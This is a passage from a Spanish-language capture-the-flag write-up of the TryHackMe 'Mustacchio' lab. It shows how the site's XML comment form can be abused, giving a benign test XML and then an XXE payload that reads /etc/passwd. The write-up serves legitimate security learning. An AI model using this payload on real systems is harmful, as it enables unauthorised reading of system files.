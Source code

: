 Tenemos un comentario totalmente absurdo, pero lo que a nosotros nos importa es la estructura XML que sige, vamos a intentar utilizarla para conseguir introducir un comentario en la página.

Vamos a escribir la siguiente estructura XML.

```
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>rincon</name>
  <author>rincon2</author>
  <com>rincon3</com>
</comment>
```
![](/assets/images/thm-mustacchio/13.jpg)


Vemos que nos deja escribir el comentario, ahora vamos a intentar leer algún archivo del sistema mediante la vulnerabilidad xxe.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY rincon3 SYSTEM "file:///etc/passwd"> ]>
<comment>
  <name>rincon</name>
  <author>rincon2</author>
  <com>&rincon3;</com>
</comment>
```
